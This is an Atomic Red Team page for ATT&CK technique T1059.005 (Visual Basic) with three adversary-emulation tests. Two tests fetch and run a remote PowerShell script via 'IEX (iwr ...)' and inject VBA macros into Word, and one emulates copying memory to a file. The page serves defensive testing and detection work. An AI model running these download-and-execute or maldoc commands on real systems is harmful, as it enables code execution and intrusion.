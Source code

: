 ```yaml
---
tags: [T1059_005, atomic_test]
filename: "[[T1059.005|T1059.005 - Command and Scripting Interpreter: Visual Basic]]"
---
```


# T1059.005 - Command and Scripting Interpreter: Visual Basic
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/005)
<blockquote>Adversaries may abuse Visual Basic (VB) for execution. VB is a programming language created by Microsoft with interoperability with many Windows technologies such as [Component Object Model](https://attack.mitre.org/techniques/T1559/001) and the [Native API](https://attack.mitre.org/techniques/T1106) through the Windows API. Although tagged as legacy with no planned future evolutions, VB is integrated and supported in the .NET Framework and cross-platform .NET Core.(Citation: VB .NET Mar 2020)(Citation: VB Microsoft)

Derivative languages based on VB have also been created, such as Visual Basic for Applications (VBA) and VBScript. VBA is an event-driven programming language built into Microsoft Office, as well as several third-party applications.(Citation: Microsoft VBA)(Citation: Wikipedia VBA) VBA enables documents to contain macros used to automate the execution of tasks and other functionality on the host. VBScript is a default scripting language on Windows hosts and can also be used in place of [JavaScript](https://attack.mitre.org/techniques/T1059/007) on HTML Application (HTA) webpages served to Internet Explorer (though most modern browsers do not come with VBScript support).(Citation: Microsoft VBScript)

Adversaries may use VB payloads to execute malicious commands. Common malicious usage includes automating execution of behaviors with VBScript or embedding VBA content into [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001) payloads (which may also involve [Mark-of-the-Web Bypass](https://attack.mitre.org/techniques/T1553/005) to enable execution).(Citation: Default VBS macros Blocking )</blockquote>

## Atomic Tests

- [Atomic Test #1 - Visual Basic script execution to gather local computer information](#atomic-test-1---visual-basic-script-execution-to-gather-local-computer-information)

- [Atomic Test #2 - Encoded VBS code execution](#atomic-test-2---encoded-vbs-code-execution)

- [Atomic Test #3 - Extract Memory via VBA](#atomic-test-3---extract-memory-via-vba)


<br/>

## Atomic Test #1 - Visual Basic script execution to gather local computer information
Visual Basic execution test, execute vbscript via PowerShell.

When successful, system information will be written to $env:TEMP\T1059.005.out.txt.

**Supported Platforms:** Windows


**auto_generated_guid:** 1620de42-160a-4fe5-bbaf-d3fef0181ce9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| vbscript | Path to sample script | string | PathToAtomicsFolder&#92;T1059.005&#92;src&#92;sys_info.vbs|


#### Attack Commands: Run with `powershell`! 


```powershell
cscript "#{vbscript}" > $env:TEMP\T1059.005.out.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1059.005.out.txt -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Sample script must exist on disk at specified location (#{vbscript})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{vbscript}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -ItemType Directory (Split-Path "#{vbscript}") -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.005/src/sys_info.vbs" -OutFile "#{vbscript}"
```




<br/>
<br/>

## Atomic Test #2 - Encoded VBS code execution
This module takes an encoded VBS script and executes it from within a malicious document. By default, upon successful execution
a message box will pop up displaying "ART T1059.005"

A note regarding this module, due to the way that this module utilizes "ScriptControl" a 64bit version of Microsoft Office is required.
You can validate this by opening WinWord -> File -> Account -> About Word

**Supported Platforms:** Windows


**auto_generated_guid:** e8209d5f-e42d-45e6-9c2f-633ac4f1eefa






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059.005-macrocode.txt" -officeProduct "Word" -sub "Exec"
```

#### Cleanup Commands:
```powershell
Get-WmiObject win32_process | Where-Object {$_.CommandLine -like "*mshta*"}  | % { "$(Stop-Process $_.ProcessID)" } | Out-Null
```



#### Dependencies:  Run with `powershell`!
##### Description: The 64-bit version of Microsoft Office must be installed
##### Check Prereq Commands:
```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  $path = $wdApp.Path
  Stop-Process -Name "winword"
  if ($path.contains("(x86)")) { exit 1 } else { exit 0 }
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word (64-bit) manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #3 - Extract Memory via VBA
This module attempts to emulate malware authors utilizing well known techniques to extract data from memory/binary files. To do this
we first create a string in memory then pull out the pointer to that string. Finally, it uses this pointer to copy the contents of that
memory location to a file stored in the $env:TEMP\atomic_t1059_005_test_output.bin.

**Supported Platforms:** Windows


**auto_generated_guid:** 8faff437-a114-4547-9a60-749652a03df6





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing) 
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1059.005\src\T1059_005-macrocode.txt" -officeProduct "Word" -sub "Extract"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_t1059_005_test_output.bin" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
